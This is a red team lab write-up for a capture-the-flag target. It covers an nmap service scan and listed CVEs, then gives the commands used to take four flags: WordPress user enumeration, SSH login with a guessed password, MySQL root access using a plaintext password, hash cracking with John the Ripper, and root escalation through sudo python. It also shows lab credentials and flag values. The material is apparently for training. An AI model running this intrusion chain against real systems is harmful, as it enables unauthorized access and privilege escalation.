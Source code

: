 **Red Team: Summary of Operations**


**Table of Contents**
- Exposed Services
- Critical Vulnerabilities
- Exploitation


**Exposed Services**

Nmap scan results for each machine reveal the below services and OS details:

`’’bash

$ nmap -sV 192.168.1.100/24


This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Ports/Services

- 22/tcp           open        SSH                OpenSSH
- 80/tcp           open        http               Apache
- 111/tcp          open        rpcbind            2-4
- 139/tcp          open        netbios-ssn        Samba
- 445/tcp          open        netbios-ssn        Samba

 
**List of Critical Vulnerabilities**

The following vulnerabilities were identified:

CVE-2014-0226 - allows remote attackers to cause a denial of service (heap-based buffer 
overflow), or possibly obtain sensitive credential information or execute arbitrary code. The first vulnerability allows hackers to potentially access sensitive information. With the scan that was used to find vulnerabilities it will also give the bad actor directories marked as interesting highlighting that there may be something of use in those directories.


CVE-2014-3503 - pertains to weak random values to generate passwords, which makes it easier for remote attackers to guess the password via a brute force attack. Password policies must be adhered to because many brute force attacks rely on simple password combinations to crack the account. Sometimes a brute force is not required as this user used their name as the password which is also unadvisable.


CVE-2000-0525 - OpenSSH does not properly drop privileges when the UseLogin option is enabled, which allows local users to execute arbitrary commands by providing the command to the ssh daemon. With an SSH connection that comes from an unknown IP address, the system can expose information that the hacker can further leverage to manipulate the system even more.

(Images/target1_vulnscan.jpg)


**Exploitation**


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
     **Exploit Used**
     
      - viewed HTML source code
      - used Page inspect
      (Images/flag_1.jpg)

  
  `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
      **Exploit Used**
      
      - Used wpscan to enumerate users from the wordpress site, giving us target to exploit
      - by guessing a user password, an SSH connection was made to the web server
      - flag was found in the /var/www directory

    Commands        

    - wpscan --url http://192.168.1.110/wordpress --enumerate u
    - ssh michael@192.168.1.110
    - cat flag2.txt
    - (Images/flag_2.jpg)

  ‘flag3’: flag3{afc01ab56b50591e7dccf93122770cd2}
       **Exploit Used**
 
        - mySQL database config file was leveraged to find root user access to mySQL database
        - through investigation, SQL queries were made to find password hashes for Wordpress users
        - flag found in the table

    Commands        
    - mysql -u root -p ‘R@v3nSecurity’
    - show databases; use wordpress; show tables; select * from wp_posts;
    - (Images/flag_3.jpg)


  ‘flag4’: flag4{715dea6c055b9fe3337544932f2941ce}
          **Exploit Used**
          
          - through mySQL infiltration, found another user to use as opportunity to get to root user
          - used john the ripper on the password hashes collected from mySQL database
          - found password for other user and connected via SSH
          - this user can run python commands with sudo
          - root system OS must be leveraged to gain root access
          - flag found in home directory for root user
    Commands        
    - john wp_hashes.txt -wordlist=rockyou.txt
    - ssh steven@192.168.1.110
    - sudo python, import os, os.system(“/bin/bash”)
    - cat flag4.txt
    - (Images/flag_4.jpg)
